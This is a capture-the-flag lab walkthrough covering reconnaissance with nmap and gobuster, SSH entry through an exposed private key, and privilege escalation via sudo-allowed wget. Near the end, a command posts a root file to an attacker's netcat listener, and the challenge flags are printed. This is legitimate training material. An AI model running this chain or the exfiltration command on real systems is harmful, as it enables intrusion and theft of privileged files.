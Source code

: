 **Tristan Gomez**

To begin the challenge, I ran a classic nmap scan, just passing the `-sV` flag to get the software versions of any services that I find.
```
─$ sudo nmap -sV 10.10.210.190                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 11:57 PDT
Nmap scan report for 10.10.210.190
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.37 seconds

```

Looks like we have a website running on port 80 and ssh on port 22. I can't seem to connect to the site from my browser but a `wget http://10.10.216.29` works. Looking at the index.html file, I found `<!-- Jessie don't forget to udate the webiste -->` hidden as a comment. So, we have a potential ssh user now. Let's try to enumerate web pages using gobuster.
```
└─$ gobuster dir -w common.txt -x php,html,txt,js -u 10.10.216.29
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.216.29
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt,js
[+] Timeout:                 10s
===============================================================
2021/12/12 12:26:09 Starting gobuster in directory enumeration mode
===============================================================
/.hta.php             (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.hta.js              (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htaccess.js         (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.js         (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11374]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 277]  
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.216.29/sitemap

```
Hmm, so almost all found pages return 403 forbidden responses, but we do get a 301 redirect on /sitemap which appears to also be a directory. I will enumerate pages in that directory using gobuster again.


```
└─$ gobuster dir -w common.txt -x php,html,txt,js -u 10.10.216.29/sitemap
===============================================================                                                                                                        
Gobuster v3.1.0                                                                                                                                                        
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                          
===============================================================
[+] Url:                     http://10.10.216.29/sitemap
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              js,php,html,txt
[+] Timeout:                 10s
===============================================================
2021/12/12 12:33:04 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta.js              (Status: 403) [Size: 277]
/.htpasswd.js         (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htaccess.js         (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.216.29/sitemap/.ssh/]
/about.html           (Status: 200) [Size: 12232]   
/blog.html
/contact.html
/css
/fonts
/images
/index.html
/js
/shop.html
/services.html
/work.html
```

Oooooh! In the /.ssh directory, I found a private `id_rsa` key. I copied it onto my machine. We have the name `jessie` so lets try to ssh in using the key we just found. Woo! it works without a passphrase!

```
jessie@CorpOne:~$ 
jessie@CorpOne:~$ cd Documents
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6
```
Now that we have the user flag, we need to privesc to get the root flag. Let's check the permissions for this user. 

```
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
    
jessie@CorpOne:~/Documents$ id
uid=1000(jessie) gid=1000(jessie) groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

```


So we can run `wget` as the root user without a password. That's highly suspicious. Let's check gtfobins to see if we can abuse this binary. Looks like we can by running the command below. Since I can run wget as root, I can use this to exfiltrate privileged files. I opened up a nc listener first to catch the root.txt file.
```
sudo wget --post-file=/root/root_flag.txt http://10.8.248.108:1111
--2021-12-12 22:49:22--  http://10.8.248.108:1111/
Connecting to 10.8.248.108:1111... connected.
HTTP request sent, awaiting response... No data received.
Retrying.

```


On the listening end of the connection...
```
└─$ sudo nc -nvlp 1111
[sudo] password for gomez22: 
listening on [any] 1111 ...
connect to [10.8.248.108] from (UNKNOWN) [10.10.216.29] 46280
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.8.248.108:1111
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d

```
Woo! root flag. Another challenge done.